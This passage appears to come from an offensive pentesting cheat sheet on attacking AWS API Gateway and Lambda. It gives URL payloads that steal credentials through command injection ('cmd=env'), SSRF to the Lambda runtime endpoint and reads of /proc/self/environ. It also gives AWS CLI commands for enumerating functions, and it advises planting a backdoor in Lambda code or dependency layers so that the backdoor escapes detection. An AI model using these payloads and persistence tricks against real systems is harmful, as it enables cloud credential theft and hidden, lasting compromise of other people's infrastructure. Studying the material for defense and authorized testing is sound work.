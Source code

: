 ### Getting information about a specific API Key

```
aws apigateway get-api-key --api-key KEY
```

## Initial Access

* Its possible to get RCE through API Gateway if it executes commands.
* If you can execute commands, there is a way to retrieve keys from the API Gateway, just use `env` , configure `aws cli` and proceed with the exploitation.

## Credential Access

Getting credentials from Lambda can be done in 2 ways

1. Keys in the source code
2. Keys in the enviroment variables

These keys can be gathered using SSRF, RCE and so on.

### Getting credentials using RCE

```
https://apigateway/prod/system?cmd=env
```

### Getting credentials using SSRF

```
https://apigateway/prod/example?url=http://localhost:9001/2018-06-01/runtime/invocation/next
```

### Getting credentials using SSRF and wrappers

```
https://apigateway/prod/system?cmd=file:///proc/self/environ
```

### Getting credentials from lambda enviroment variables (cli)

```
aws lambda get-function --function-name NAME
```

* It's important to enumerate the functions first with `aws lambda list-functions`

## Persistence
* If the user has sufficient rights in the lambda function, its possible to download the source code, add a backdoor to it and upload. Everytime the lambda executes, the malicious code will also execute.
* Always try to update the code of layers (depedencies) instead of the actual lambda code, this way our backdoor will be difficult to detect.
